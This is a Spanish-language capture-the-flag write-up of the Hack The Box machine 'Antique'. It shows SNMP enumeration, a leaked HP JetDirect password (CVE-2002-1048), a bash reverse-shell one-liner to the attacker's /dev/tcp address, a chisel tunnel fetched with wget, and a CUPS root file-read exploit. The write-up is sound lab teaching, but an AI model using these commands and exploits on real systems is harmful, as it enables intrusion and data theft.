



pointedsec
if pentester.found == bug { make(pentester,states.happy) }
Hack The Box: Antique Writeup
Welcome to my detailed writeup of the easy difficulty machine “Antique” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
$ rustscan -a 10.129.250.207 --ulimit 5000 -g
10.129.250.207 -> [23]
$ nmap -p23 10.129.250.207 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 23:18 CEST
Nmap scan report for 10.129.250.207
Host is up (0.038s latency).
PORT STATE SERVICE
23/tcp open telnet
Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
UDP Enumeration
$ sudo nmap --top-ports 1500 --min-rate 5000 -sU -n -Pn 10.129.250.207 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 23:19 CEST
Nmap scan report for 10.129.250.207
Host is up (0.037s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT STATE SERVICE
88/udp closed kerberos-sec
161/udp open snmp
19933/udp closed unknown
25212/udp closed unknown
27673/udp closed unknown
30661/udp closed unknown
Nmap done: 1 IP address (1 host up) scanned in 0.82 seconds
La verdad que me sorprendió solo ver el telnet abierto por TCP..
SNMP Enumeration
Como tampoco podía hacer mucho, voy a enumerar con snmpbulkwalk a ver que se está compartiendo por SNMP.
$ snmpbulkwalk -c public -v2c 10.129.250.207
SNMPv2-SMI::mib-2 = STRING: "HTB Printer"
Así que decidí conectarme por telnet, a ver si conseguía algo mas de información.
$ telnet 10.129.250.207
Trying 10.129.250.207...
Connected to 10.129.250.207.
Escape character is '^]'.
HP JetDirect
Password: admin
Invalid password
Connection closed by foreign host.
HP JetDirect, algo es algo…

Buscando con searchsploit vemos lo siguiente…
A problem with JetDirect printers could make it possible for a remote user to gain administrative access to the printer.
It has been reported that HP JetDirect printers leak the web JetAdmin device password under some circumstances. By sending an SNMP GET request to a vulnerable printer, the printer will return the hex-encoded device password to the requester. This could allow a remote user to access and change configuration of the printer.
C:\>snmputil get example.printer public .1.3.6.1.4.1.11.2.3.9.1.1.13.0
Probando con el OID que nos ha compartido..
$ snmpwalk -c public -v2c 10.129.250.207 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
¡Nos responde algo!
Foothold
Como dato, el CVE es CVE-2002-1048 Del a√±o de la polka…
Con un pequeño script en python
#!/usr/bin/python3
BITS = "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135"
def decode():
bits = BITS.replace(" ", "")
result_string = ''.join([chr(int(bits[i:i+2], 16)) for i in range(0, len(bits), 2)])
print(result_string)
pass
if __name__ == "__main__":
decode(
$ python3 decode.py
P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGWaA"1&1A5
Me dio la sensación de que se habían colado caracteres, por lo cual me quedé solo con la primera fila de hexadecimal
50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
Y ahora tiene mejor pinta.
$ python3 decode.py
P@ssw0rd@123!!12
Probando combinaciones, vi que faltaba un tres en la contraseña.
P@ssw0rd@123!!123

Enumerando lo que podía hacer, nos encontramos esta línea
exec: execute system commands (exec id)
exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
Ahora solo queda mandarnos una reverse shell.
Nos ponemos en escucha con netcat por el puerto 443.
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
Nos mandamos la revshell…
> exec bash -c "bash -i >& /dev/tcp/10.10.14.18/443 0>&1"
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.250.207] 56774
bash: cannot set terminal process group (1146): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ whoami
whoami
lp
lp@antique:~$
Y ya podríamos leer la flag de usuario
lp@antique:~$ cat user.txt
cat user.txt
1639908b7ad1cd...
Privilege Escalation
Después de enumerar un rato el sistema.
lp@antique:~$ netstat -tulnp
netstat -tulnp
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 0.0.0.0:23 0.0.0.0:* LISTEN 1163/python3
tcp 0 0 127.0.0.1:631 0.0.0.0:* LISTEN -
tcp6 0 0 ::1:631 :::* LISTEN -
udp 0 0 0.0.0.0:68 0.0.0.0:* -
udp 0 0 0.0.0.0:161 0.0.0.0:* -
Vemos un puerto interno 631.
Vamos con chisel a hacer Reverse Port Forwarding
Nos lo compartimos creando un servidor web temporal con python3
$ python3 -m http.server 8081
Y nos lo descargamos en la máquina víctima con wget
lp@antique:/tmp$ wget http://10.10.14.18:8081/chisel
En la máquina víctima nos ponemos en escucha por el puerto 1234.
$ sudo ./chisel server --reverse -p 1234
Importante ejecutar con sudo ya que se va a usar un puerto inferior a 1024.
Ahora en la máquina víctima..
./chisel client 10.10.14.18:1234 R:631:127.0.0.1:631
Y ahora nuestro puerto local 631 es el puerto 631 de la máquina víctima.
$ sudo ./chisel server --reverse -p 1234
2024/08/05 23:47:39 server: Reverse tunnelling enabled
2024/08/05 23:47:39 server: Fingerprint NlttnPRHpMQoAwbRWuNr/L0LOxmCqUuczmy3ifi7RMU=
2024/08/05 23:47:39 server: Listening on http://0.0.0.0:1234
2024/08/05 23:47:40 server: session#1: tun: proxy#R:631=>631: Listening
Haciendo una simple enumeración con nmap vemos que es un servicio CUPS 1.6.
$ nmap -p631 -sCV 127.0.0.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 23:49 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00019s latency).
PORT STATE SERVICE VERSION
631/tcp open ipp CUPS 1.6
| http-robots.txt: 1 disallowed entry
|_/
| http-methods:
|_ Potentially risky methods: PUT
|_http-server-header: CUPS/1.6
|_http-title: Home - CUPS 1.6.1
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.23 seconds
Así se ve. 
Y vemos una vulnerabilidad de tipo RCE que puede que sea compatible con esta versión.

Necesito python2 para este exploit y no lo tengo instalado en mi máquina, así que vamos a buscar una forma alternativa..
$ python3 rce.py
File "/home/pointedsec/Desktop/antique/content/rce.py", line 16
print '''
^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?
Parece ser que podemos ejecutar directamente este PoC desde la máquina víctima si estamos en el grupo lpadmin
Así que vamos a compartirnoslo.
Y si le damos permiso de ejecución y lo ejecutamos.
lp@antique:/tmp$ ./cups-root-file-read.sh
Y podemos leer archivos privilegiados de la máquina.

¡Y ya estaría!
Happy Hacking! üöÄ